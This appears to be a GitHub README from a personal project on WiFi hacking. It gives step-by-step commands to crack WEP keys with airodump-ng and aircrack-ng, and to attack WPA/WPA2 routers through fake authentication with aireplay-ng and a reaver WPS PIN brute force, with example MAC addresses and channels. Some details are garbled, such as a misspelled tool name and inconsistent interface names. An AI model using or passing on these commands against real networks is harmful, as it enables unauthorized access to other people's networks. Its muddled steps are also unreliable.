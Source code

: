 # Network Hacking (wifi)

## Objective
Network Hacking and gaining access to Wifi networks and cracking them.

### Skills Learned

- Sniffing on 5Gz and 2.5Gz wireless networks
- aircrack-ng
  

### Tools Used

- Kali Linux.
- VMware Fusion.
- airodump-ng
- aircrack-ng
- WASH
- aireplay-ng

## Steps for WAP

- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```

(The mode will be Monitor now)

- Sniffing on 5G and 2.4G networks and find the network with the cipher WEP
```bash
airdump-ng --band abg wlan0
```

- Sniffing packets from the network with the WEP cipher with the specific MAC and channel number and save the results in a file test
```bash
airodump-ng --bssid 03:DE:4B:AD:CC:8B --channel 9 --write test mon0
```

- Wait for the #Data number to move real fast and open a new terminal window and ls to find the ".cap" file that you created.
- Use aircrack-ng to find the Key from the file we created ending with .cap
```bash
aircrack-ng test.cap
```
- Copy the key and remove the : and that would be the wifi password.

## Steps for WPA/WPA2

- Changing the wireless USB mode to monitoring
```bash
ifconfig wlan0 down
iwconfig wlan0 mode monitor
ifconfig wlan0 up
```
- Find wifi networks with WPS enebled using the tool WASH
```bash
wash --interface wlan0
```
- Use aireplay-ng to create a fake authentication with te first MAC address is the target and the second is the USB wireless adapter MAC address, which is the first 12 characters from the ifconfig, make sure to replace the "-" with the ":".
```bash
aireplay-ng --fakeauth 30 -a 78:67:0E:31:4C:42 -h 3A:97:5F:E2:18:5F wlan0
```
- Don't execute the code above yet. We go to the second terminal and use reaver tool to bruteforce and get the pin.
```bash
reaver --bssid 78:67:0E:31:4C:42 --channel 1 --interface wlan0 -vvv --no-associate
```
- If Reaver finds the pin then the password will be available for the Wifi network. 
(not all routers will be cracked with these steps)

￼
